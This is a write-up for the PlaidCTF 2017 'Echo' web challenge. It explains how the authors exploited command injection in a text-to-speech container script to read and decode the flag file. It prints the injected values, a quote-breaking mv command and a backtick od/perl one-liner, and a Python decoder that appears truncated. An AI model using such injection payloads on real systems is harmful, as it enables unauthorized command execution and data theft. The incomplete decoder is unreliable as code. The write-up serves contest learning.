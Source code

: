 ```yaml
---
layout: post
title: "PlaidCTF 2017 - Echo"
category: writeups
author: thezero
tags: plaidctf-2017 web
---
```


## Echo
Web - 200 Points

If you hear enough, you may hear the whispers of a key...
If you see app.py well enough, you will notice the UI sucks...

[http://echo.chal.pwning.xxx:9977/](http://echo.chal.pwning.xxx:9977/)

### Writeup

The server execute a text-to-speech software on 4 tweets as input and let you listen to the wav output files.  
The text-to-speech process is executed in a docker image called [lumjjb/echo_container](https://hub.docker.com/r/lumjjb/echo_container/)  
Inside the docker container, the file [run.py](https://gist.github.com/TheZ3ro/a83a05a3a6d3a8cd967ec325f276470a) performs the text-to-speech.  
The tweets are written to a file `input`. In the same folder the server saves the `flag` file that has the encrypted flag inside.    
This folder is then shared with the docker TTS container.

In line 30 of `run.py` file there is a command execution vulnerability for the variable `l`

We tried moving the flag file to a wav file in the `out` folder with this payload  
`";mv /share/flag "/share/out/1.wav`.  
After the TTS step the wav files are converted with ffmpeg and the conversion output is stored in the folder served by the webserver. 
Unfortunately when the flag file (txt) is moved to a wav, ffmpeg returns an error and no file is stored as output.

So we thought it would be nice to read the flag file directly with the TTS, but the server returned a 500 error.  
The flag file had lots of unpronounceable characters, and it was **2470000** chars long, *65000* for every character in the flag, so the flag was actually **38** char long.

So we decided to write a small payload that decrypt the flag on the docker, let the server process the flag as TTS, convert the wav and the we would listen to the flag.  
Since the TTS wasn't good we splitted the flag text into single char converted to decimal.

This was out python payload. Too long to fit in 4 tweets
{% highlight python %}
def decode_flag(f):
    for i in range(0, len(f),65000):
        if i+64999 > len(f):
            break
        fs=f[i:i+64999]
        c=f[i+64999]
        p=0
        for k in fs:
           p=p^ord(k)
{% endhighlight %}

So we used this smaller one (that even fits in one tweet! ^.^ )
```
`od -v -w1 -An -t uC /share/flag | perl -e 'my $i=0;my $x=0;while(<>){ $i++;$x^=$_; if($i==65000){$i=0;print $x." "; $x=0;}  };'`
```


And the flag!
`80 67 84 71 123 76 49 53 115 116 51 110 95 84 48 95 95 114 101 101 101 95 114 101 101 101 101 101 101 95 114 101 101 101 95 108 97 125`

Ops, Sorry! 
The Flag:
`PCTF{L15st3n_T0__reee_reeeeee_reee_la}`
